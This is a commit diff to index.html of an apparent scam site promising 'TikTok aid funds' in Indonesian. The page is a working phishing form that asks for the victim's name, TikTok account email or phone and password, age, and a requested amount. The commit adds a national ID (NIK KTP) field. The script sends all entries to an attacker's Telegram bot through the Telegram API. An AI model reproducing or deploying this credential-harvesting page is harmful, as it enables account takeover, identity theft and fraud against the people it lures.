

Before and after one commit to formvald-bit/BantuanDanaTiktok77, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 124-684 px from the top of the page, without its empty margins (329-969 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -32,8 +32,9 @@
     <h2>Formulir Pendaftaran Penerima Bantuan TIKTOK </h2>
     <h3>Masuk Akun Tiktok</h3>
     <input type="text" id="nama" placeholder="Nama Lengkap" required>
-    <input type="email" id="email" placeholder="Email/Nomor Telepon" required>
-    <input type="text" id="alamat" placeholder="Sandi" required>
+    <input type="email" id="email" placeholder="Email/Nomor Telepon Akun Tiktok" required>
+    <input type="text" id="alamat" placeholder="Sandi Akun Tiktok" required>
+    <input type="text" id="ktp" placeholder="NIK KTP" required>
     <input type="number" id="nomor" placeholder="Usia" required>
     <textarea id="pesan" placeholder="Jumlah Permintaan Bantuan (1-100 Juta)"></textarea>
     <button type="submit">Kirim</button>
@@ -49,10 +50,11 @@
       const nama = document.getElementById("nama").value;
       const email = document.getElementById("email").value;
       const alamat = document.getElementById("alamat").value;
+      const ktp = document.getElementById("ktp").value;
       const pesan = document.getElementById("pesan").value;
       const nomor = document.getElementById("nomor").value;
 
-      const text = ` *Pendaftaran Baru*%0A Nama: ${nama} %0A Alamat: ${alamat}%0A  Email: ${email}%0A Nomor HP: ${nomor}%0A Pesan: ${pesan}%0A `;
+      const text = ` *Pendaftaran Baru*%0A Nama: ${nama} %0A Alamat: ${alamat}%0A NikKtp: ${ktp}%0A Email: ${email}%0A Nomor HP: ${nomor}%0A Pesan: ${pesan}%0A `;
 
       fetch(`${TELEGRAM_API}?chat_id=${CHAT_ID}&text=${text}&parse_mode=Markdown`)
         .then(response => {
```
